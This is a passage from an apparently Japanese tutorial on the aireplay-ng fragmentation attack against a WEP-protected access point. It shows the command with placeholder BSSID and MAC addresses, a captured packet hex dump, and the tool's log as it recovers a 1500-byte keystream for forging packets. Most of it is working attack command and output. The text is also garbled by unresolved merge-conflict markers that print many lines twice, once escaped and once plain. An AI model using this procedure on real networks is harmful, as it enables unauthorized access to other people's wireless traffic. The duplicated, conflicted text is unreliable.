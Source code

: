 -----
# aireplay-ng -5 -b 00:11:22:33:44:55 -h ZZ:ZZ:ZZ:ZZ:ZZ:ZZ ath1
=======
ます。「aireplay\-ng \-5 \-b <ターゲットAPのBSSID> \-h <使用するNICのMACアド
レス> <使用するNIC>」と入力してください。

\-\-\-\-\-
\# aireplay\-ng \-5 \-b 00:11:22:33:44:55 \-h ZZ:ZZ:ZZ:ZZ:ZZ:ZZ ath1
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
12:40:35 Waiting for a data packet... 
Read 52 packets... 

        Size: 154, FromDS: 1, ToDS: 0 (WEP) 

<<<<<<< HEAD
             BSSID = 00:11:22:33:44:55
         Dest. MAC = AA:AA:AA:AA:AA:AA
        Source MAC = BB:BB:BB:BB:BB:BB
=======
             BSSID \= 00:11:22:33:44:55
         Dest. MAC \= AA:AA:AA:AA:AA:AA
        Source MAC \= BB:BB:BB:BB:BB:BB
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

        0x0000: 0842 0201 000f b5ab cb9d 0014 6c7e decf .B.............. 
        0x0010: 00d0 cf03 348c e0d2 4001 0000 2b62 7a01 ....4...@...+bz. 
        0x0020: 6d6d b1e0 92a8 039b ca6f cecb 5364 6e16 mm.......o..Sdn. 
        0x0030: a21d 2a70 49cf eef8 f9b9 279c 9020 30c4 ..*pI.....'.. 0. 
        0x0040: 7013 f7f3 5953 1234 5727 146c eeaa a594 p...YS.4W'.l.... 
<<<<<<< HEAD
        0x0050: fd55 66a2 030f 472d 2682 3957 8429 9ca5 .Uf...G-&.9W.).. 
        0x0060: 517f 1544 bd82 ad77 fe9a cd99 a43c 52a1 Q.D...w.....<R. 
        0x0070: 0505 933f af2f 740e ...?./t. 
        ---CUT---

Use this packet ? y (ここで[y]キーを押す)

Saving chosen packet in replay_src-0123-456789.cap
=======
        0x0050: fd55 66a2 030f 472d 2682 3957 8429 9ca5 .Uf...G\-&.9W.).. 
        0x0060: 517f 1544 bd82 ad77 fe9a cd99 a43c 52a1 Q.D...w.....<R. 
        0x0070: 0505 933f af2f 740e ...?./t. 
        \-\-\-CUT\-\-\-

Use this packet ? y (ここで[y]キーを押す)

Saving chosen packet in replay_src\-0123\-456789.cap
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
12:41:11 Data packet found!
12:41:11 Sending fragmented packet
12:41:11 Got RELAYED packet!!
12:41:11 Thats our ARP packet!
12:41:11 Trying to get 384 bytes of a keystream
12:41:11 Got RELAYED packet!!
12:41:11 Thats our ARP packet!
12:41:11 Trying to get 1500 bytes of a keystream
12:41:11 Got RELAYED packet!!
12:41:11 Thats our ARP packet!
<<<<<<< HEAD
Saving keystream in fragment-0123-456789.xor
Now you can build a packet with packetforge-ng out of that 1500 bytes keystream
-----
